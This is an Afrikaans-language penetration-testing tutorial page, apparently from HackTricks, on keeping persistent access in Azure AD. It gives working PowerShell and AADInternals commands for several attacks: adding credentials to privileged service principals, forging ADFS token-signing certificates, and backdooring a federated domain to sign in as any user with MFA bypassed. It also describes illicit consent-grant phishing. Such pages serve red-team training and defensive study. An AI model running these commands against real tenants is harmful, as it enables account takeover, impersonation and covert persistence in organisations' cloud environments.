 # Az - Persistensie

{{#include ../../../banners/hacktricks-training.md}}

### Onwettige Toestemmingstoekenning

Standaard kan enige gebruiker 'n toepassing in Azure AD registreer. So kan jy 'n toepassing registreer (slegs vir die teikenhuurder) wat hoë impak toestemmings benodig met administratortoestemming (goedkeur dit as jy die admin is) - soos om e-pos namens 'n gebruiker te stuur, rolbestuur, ens. Dit sal ons in staat stel om **phishing-aanvalle** uit te voer wat baie **vrugbaar** sal wees in geval van sukses.

Boonop kan jy ook daardie toepassing met jou gebruiker aanvaar as 'n manier om toegang daaroor te behou.

### Toepassings en Diensbeginsels

Met voorregte van Toepassing Administrateur, GA of 'n pasgemaakte rol met microsoft.directory/applications/credentials/update toestemmings, kan ons kredensiale (geheime of sertifikaat) aan 'n bestaande toepassing voeg.

Dit is moontlik om 'n **toepassing met hoë toestemmings** te **teiken** of 'n **nuwe toepassing** met hoë toestemmings toe te voeg.

'n Interessante rol om by die toepassing te voeg, sou die **Privileged authentication administrator role** wees, aangesien dit toelaat om die wagwoord van Globale Administrators te **herstel**.

Hierdie tegniek laat ook toe om **MFA te omseil**.
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
- Vir sertifikaat-gebaseerde outentisering
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federasie - Token Onderteken Sertifikaat

Met **DA bevoegdhede** op on-prem AD, is dit moontlik om **nuwe Token onderteken** en **Token Decrypt sertifikate** te skep en in te voer wat 'n baie lang geldigheid het. Dit sal ons in staat stel om **in te teken as enige gebruiker** wie se ImuutableID ons ken.

**Voer** die onderstaande opdrag uit as **DA op die ADFS bediener(s)** om nuwe sertifikate te skep (standaard wagwoord 'AADInternals'), voeg dit by ADFS, deaktiveer outomatiese hernuwing en herbegin die diens:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Dan, werk die sertifikaatinligting by met Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federasie - Betroubare Domein

Met GA-privileges op 'n huurder, is dit moontlik om 'n **nuwe domein** toe te voeg (moet geverifieer word), sy autentikasietipe na Federated te konfigureer en die domein te **vertrou op 'n spesifieke sertifikaat** (any.sts in die onderstaande opdrag) en uitreiker:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Verwysings

- [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{{#include ../../../banners/hacktricks-training.md}}
